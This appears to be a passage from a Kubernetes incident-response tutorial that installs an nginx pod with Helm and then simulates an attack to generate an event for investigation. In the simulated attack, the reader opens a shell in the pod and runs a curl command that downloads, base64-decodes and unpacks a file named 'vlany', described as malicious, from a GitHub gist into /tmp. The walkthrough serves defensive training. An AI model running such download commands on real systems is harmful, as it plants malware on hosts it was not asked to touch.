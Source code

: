 We will go now go through a incident response workflow and how you can investigate an event.

Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and the name of the pod by running  
`kubectl get pod -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -- /bin/bash`  
You can get the value of `YOUR_POD_NAME` from the previous command.

You will be presented with a command prompt similar to this:  
`I have no name!@example-nginx-769dfcf684-l4m67:/app$`

You can execute a few commands inside the container, or even download some malicious file.  
`cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`

Remember that the capture was configured to go on for 20 seconds after the event, so
make sure to do execute your commands within that time.
